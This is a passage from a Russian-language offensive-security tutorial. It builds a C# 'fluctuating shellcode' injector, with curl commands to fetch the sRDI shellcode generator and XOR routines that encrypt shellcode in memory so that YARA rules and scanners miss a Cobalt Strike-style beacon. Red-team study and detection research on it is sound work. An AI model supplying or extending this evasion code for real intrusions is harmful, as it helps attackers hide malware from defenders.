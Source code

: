 ```cpp
}
```

И [генератор](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py) шеллкода из DLL:

```
PS > curl https://github.com/monoxgas/sRDI/raw/master/Python/ShellcodeRDI.py -o ShellcodeRDI.py
PS > curl https://github.com/monoxgas/sRDI/raw/master/Python/ConvertToShellcode.py -o ConvertToShellcode.py
PS > python ConvertToShellcode.py -i dllSleep.dll
Creating Shellcode: dllSleep.bin
```

Шеллкод для тестов у нас готов. Не переживай, как только закончим с инжектором, протестим все на боевом C2.

## Реализация

Каркас инжектора есть, дело за малым – наполнить методы класса `FluctuateShellcode` смысловой нагрузкой. Будем идти по нашей «рыбе» снизу вверх.

### FluctuateShellcode.GenerateXorKey

Здесь все очевидно – сгенерируем последовательность байтов, которая будет накладываться на байты шеллкода [как шифрующая гамма](https://ru.wikipedia.org/wiki/Гаммирование). Помня о несовершенстве первой версии техники Obfuscate and Sleep в Cobalt Strike, из-за которой присутствие бикона можно было распознать YARA-правилом, основываясь на длине повторяющегося ключа, я реализую шифрование XOR в режиме [одноразового блокнота](https://ru.wikipedia.org/wiki/Шифр_Вернама). В этом случае размер ключа равен размеру шифротекста, то есть длине шеллкода (благо, шеллкоды обычно небольшие, поэтому «лагов» и «фризов» быть не должно).

```cs
byte[] GenerateXorKey()
{
    Random rnd = new Random();
    byte[] xorKey = new byte[shellcodeLength];
    rnd.NextBytes(xorKey);
    return xorKey;
}
```

### FluctuateShellcode.XorMemory

Пока тоже вроде нетрудно: накладываем шифрующую гамму на сегмент памяти, содержащий байты шеллкода.

```cs
void XorMemory()
{
    byte[] data = new byte[shellcodeLength];
    Marshal.Copy(shellcodeAddress, data, 0, shellcodeLength);
    for (var i = 0; i < data.Length; i++) data[i] ^= xorKey[i];
    Marshal.Copy(data, 0, shellcodeAddress, data.Length);
}
```


[//]: # (2022-06-17)